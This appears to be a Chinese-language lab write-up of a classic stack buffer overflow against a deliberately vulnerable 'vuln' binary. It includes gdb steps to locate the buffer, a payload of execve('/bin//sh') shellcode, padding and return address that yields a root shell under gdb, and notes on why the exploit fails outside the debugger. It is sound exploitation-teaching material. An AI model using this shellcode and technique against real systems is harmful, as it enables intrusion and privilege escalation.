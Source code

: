 ```
f7fca000-f7fcd000 rwxp 00000000 00:00 0 
f7fd8000-f7fd9000 rwxp 00000000 00:00 0 
f7fd9000-f7fda000 r-xp 00000000 00:00 0                                  [vdso]
f7fda000-f7ffc000 r-xp 00000000 fd:00 34036408                           /usr/lib/ld-2.17.so
f7ffc000-f7ffd000 r-xp 00021000 fd:00 34036408                           /usr/lib/ld-2.17.so
f7ffd000-f7ffe000 rwxp 00022000 fd:00 34036408                           /usr/lib/ld-2.17.so
fffdd000-ffffe000 rwxp 00000000 00:00 0                                  [stack]
```
运行如下命令查看buf地址
```
gdb vuln
gdb-peda$ b main
gdb-peda$ r
gdb-peda$ p &buf
```
结果如下
```
gdb-peda$ p &buf
$1 = (char (*)[256]) 0xffffd550
```
构造如下结构并调试
```
shellcode+padding+return_address
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" +"A"* 243 + "\x30\xd4\xff\xff"
```
调试成功
```shell
gdb-peda$ r `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" +"A"* 243 + "\x30\xd4\xff\xff"'`
Starting program: /root/sploitfun/vuln `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" +"A"* 243 + "\x30\xd4\xff\xff"'`
Input:1?h//shh/bin𸀿P𸀿S𸀿
                           巴AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0?
process 27566 is executing new program: /usr/bin/bash
sh-4.2# 
```
直接运行却报错
```shell
 H localhost.localdomain  root  ~ | sploitfun  1  ./vuln `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" +"A"* 243 + "\x30\xd4\xff\xff"'`
Input:1?h//shh/bin𸀿P𸀿S𸀿
                           巴AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0?
段错误

```
**最后发现是环境变量出了问题，gdb与直接运行程序，造成了不同的环境变量，这些环境变量值写在stack中，造成了栈地址的不同，一种简单的解决方法是通过这个项目来统一环境变量https://github.com/hellman/fixenv**
